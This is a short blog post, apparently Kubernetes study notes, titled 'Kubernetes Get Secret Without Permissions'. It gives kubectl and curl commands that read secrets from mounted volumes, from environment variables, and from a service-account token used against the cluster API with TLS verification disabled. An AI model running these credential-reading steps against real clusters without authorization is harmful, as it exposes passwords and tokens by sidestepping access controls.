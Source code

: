 ```yaml
---
title: "Kubernetes Get Secret Without Permissions"

date: 2021-07-27T20:30:00+09:00

author: CozyFex

categories:

- kubernetes
- k8s
- orchestration

tags:

- kubernetes
- secret
- permission

keywords:

- kubernetes
- secret
- permission

---
```


## Mounted Secret

```shell
kubectl exec pod1 -- cat /etc/secret-volume/password
```

## Environment Secret

```shell
kubectl exec pod2 -- env | grep PASS
```

## By Service Account

### Connect to the Container

```shell
kubectl exec -it pod3 -- sh
```

### Get Mount Information of Service Account in the Container

```shell
mount | grep serviceaccount
```

```
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
```

### Get Service Account Data in the Container

```shell
ls /run/secrets/kubernetes.io/serviceaccount
```

```
ca.crt     namespace  token
```

### Get Secret to Call Kubernetes API in the Container

```shell
curl https://kubernetes.default/api/v1/namespaces/restricted/secrets -H "Authorization: Bearer $(cat /run/secrets/kubernetes.io/serviceaccount/token)" -k
```


